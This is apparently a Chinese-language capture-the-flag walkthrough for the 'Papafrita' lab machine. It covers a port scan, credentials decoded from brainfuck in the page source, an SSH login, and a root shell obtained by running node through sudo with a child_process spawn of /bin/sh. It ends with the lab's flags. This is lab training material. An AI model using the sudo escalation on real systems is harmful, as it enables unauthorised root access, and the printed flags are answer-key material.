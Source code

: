# Papafrita

2025.03.08 https://thehackerslabs.com/papafrita/

[video](https://www.bilibili.com/video/BV1JmRpYrEAC/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 首页源代码发现 brainfuck：

```
++++++++++[>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++++>+++++++++++>+++++++++++>++++++++++<<<<<<<<<<<<<<<<<<<<-]>---.>--.>---.>+.>--.>---.>-.>---.>--.>-----.>+.>.>----.>---.>--.>---.>-----.>+.>++.>---.
```

解密得到: abuelacalientalasopa 可以分解成 abuela:calientalasopa 或者是 abuela:abuelacalientalasopa 尝试进行 ssh 登陆，发现 abuela:abuelacalientalasopa 能够登陆。

sudo -l 显示 (root) NOPASSWD: /usr/bin/node

```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

最终拿到 2 个 flag：

```
# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8
# cat /root/root.txt
7e69e6849ca2dac8fc1e4cdf9f7b915f
```
